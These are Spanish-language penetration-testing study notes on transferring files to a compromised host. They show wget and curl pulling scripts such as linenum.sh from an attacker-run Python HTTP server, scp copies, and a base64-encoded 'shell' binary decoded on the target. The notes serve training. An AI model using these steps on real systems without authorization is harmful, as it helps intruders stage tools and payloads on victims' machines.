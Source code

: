 # Transferring Files

Durante un test de penetración es habitual necesitar **transferir archivos** hacia el servidor remoto (scripts, exploits…) o traerlos de vuelta al host atacante.  
Con shells básicas (por ejemplo con un *reverse shell* sin Meterpreter) debemos recurrir a métodos manuales.

---

## 1. Usando `wget` o `curl`

1. En la máquina atacante, levantar un **servidor HTTP** sencillo con Python:

```bash
cd /tmp
python3 -m http.server 8000
```

2. En el host comprometido, descargar el archivo:

```bash
wget http://10.10.14.1:8000/linenum.sh
```

Si no hay `wget`, usar **cURL**:

```bash
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```

> - `10.10.14.1` → IP de nuestra máquina.  
> - `8000` → puerto donde corre el servidor Python.  
> - `-o` → indica el nombre de archivo de salida.

---

## 2. Usando `scp`

Si tenemos **credenciales SSH** del host remoto, podemos copiar directamente:

```bash
scp linenum.sh user@remotehost:/tmp/linenum.sh
```

- Se indica el archivo local después de `scp` y tras `:` la ruta remota.

---

## 3. Usando **Base64**

Si el firewall bloquea descargas, podemos **codificar el archivo** en Base64 y pegar la cadena en el host remoto.

1. En el host atacante:

```bash
base64 shell -w 0
```

2. Copiar la cadena Base64 resultante al host remoto y decodificar:

```bash
echo f0VMRgIBAQAAAA...SNIP... | base64 -d > shell
```

---

## 4. Validación del archivo transferido

- **Comprobar tipo de archivo**:

```bash
file shell
# → Debe mostrar: ELF 64-bit ... u otro formato válido
```

- **Verificar integridad mediante hash MD5**:

En el host atacante:
```bash
md5sum shell
# Ejemplo → 321de1d7e7c3735838890a72c9ae7d1d  shell
```

En el host remoto:
```bash
md5sum shell
# Debe coincidir con el hash anterior
```


